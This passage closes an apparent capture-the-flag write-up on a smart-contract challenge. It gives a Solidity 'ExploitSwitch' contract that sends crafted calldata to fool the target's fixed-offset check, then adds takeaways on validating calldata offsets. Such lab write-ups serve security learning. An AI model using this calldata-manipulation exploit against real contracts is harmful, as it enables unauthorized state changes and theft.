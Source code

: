 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ExploitSwitch {
    address Switch;
    constructor(address _addr){
        Switch=_addr;
    }
    function Exploit() public {
        bytes memory Calldata=hex"30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";
        (bool a,)=Switch.call(Calldata);
        require(a,"Exploit Failed");
    }
}

```

That's it for this challenge. Hope you enjoyed this challege

### Key takeaways

We should try to avoid depending on our logic based on calldata because calldata can be manipulated.

In this case, instead of comparing the value at the 68th byte, it should first check where the zeroth slot (0x00) is pointing. Then the `calldatacopy` should get data from that location and compare the value. If we do this, we can prevent this exploit.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
